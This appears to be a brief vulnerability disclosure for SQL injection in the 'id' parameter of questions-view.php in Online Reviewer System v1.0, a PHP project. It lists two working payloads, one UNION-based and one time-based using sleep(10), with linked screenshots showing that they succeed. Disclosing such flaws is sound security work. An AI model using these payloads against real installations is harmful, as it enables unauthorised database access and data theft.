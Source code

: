 # Online Reviewer System v1.0 has SQL injection

BUG_Author:HaolunSong

Website source code address: https://www.sourcecodester.com/php/12937/online-reviewer-system-using-phppdo.html

Vulnerability File: /reviewer/system/system/admins/assessments/pretest/questions-view.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=151' union all select null,null,concat(0x71727374,0x5556575859),null,null,null,null,null,null,null,null,null,null,null,null,null,null-- -

union query success

![image](https://github.com/csbsong/bug_report/blob/main/sql1.png)

Payload2:id=151' and (select 1 from (select(sleep(10)))x)-- x

Time based injection successful, server response time is 10 seconds

![image](https://github.com/csbsong/bug_report/blob/main/sql2.png)
